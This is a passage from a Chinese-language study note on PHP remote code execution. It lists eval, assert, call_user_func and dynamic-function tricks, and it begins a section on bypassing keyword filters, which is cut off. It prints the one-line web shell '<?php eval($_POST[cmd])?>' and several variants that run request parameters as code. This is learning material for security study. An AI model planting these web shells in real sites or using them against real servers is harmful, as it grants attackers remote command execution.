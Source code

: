 ```yaml
---
title: 简单代码执行的学习
date: 2022-09-10 16:48:24
tags:
- rce
categories: 
- web
- 笔记
---
```


## 常见函数

> https://blog.csdn.net/qq_32108547/article/details/95649397

### eval()

eval() 函数把字符串按照 PHP 代码来计算，如常见的一句话后门程序：

`<?php eval($_POST[cmd])?>`

### assert()

与eval类

```php
<?php
    //?cmd=phpinfo() 
    assert($_REQUEST[cmd]); 
?>
```

### call_user_func()/call_user_func_array ()

call_user_func — 把第一个参数作为回调函数调用,其余参数是回调函数的参数。

call_user_func_array — 调用回调函数，并把一个数组参数作为回调函数的参数

```php
<?php 
    //?cmd=phpinfo()
    @call_user_func(assert,$_GET['cmd']);
?>

<?php 
    //?cmd=phpinfo()
    $cmd=$_GET['cmd'];
    $array[0]=$cmd;
    call_user_func_array("assert",$array);
?>
```

### 动态函数

```php
<?php 
//?a=assert&b=phpinfo()
$_GET['a']($_GET['b']);
?>
```

### array_walk()和array_walk_recursive()

array_walk — 使用用户自定义函数对数组中的每个元素做回调处理

```php
function myfunction($value,$key) {
    echo "键 $key 的值是 $value 。<br>";
}

$a1=array("a"=>"red","b"=>"green");
array_walk($a1,"myfunction");
```

```
键 a 的值是 red 。
键 b 的值是 green 。
```

array_walk_recursive — 对数组中的每个成员**递归**地应用用户函数

```php
function myfunction($value,$key) {
    echo "键 $key 的值是 $value 。<br>";
}

$a1=array("a"=>"red","b"=>"green");
$a2=array($a1,"1"=>"blue","2"=>"yellow");
array_walk_recursive($a2,"myfunction");
```

```php
键 a 的值是 red 。
键 b 的值是 green 。
键 1 的值是 blue 。
键 2 的值是 yellow 。
```

## 常见过滤

### 关键函数过滤

大小写绕过
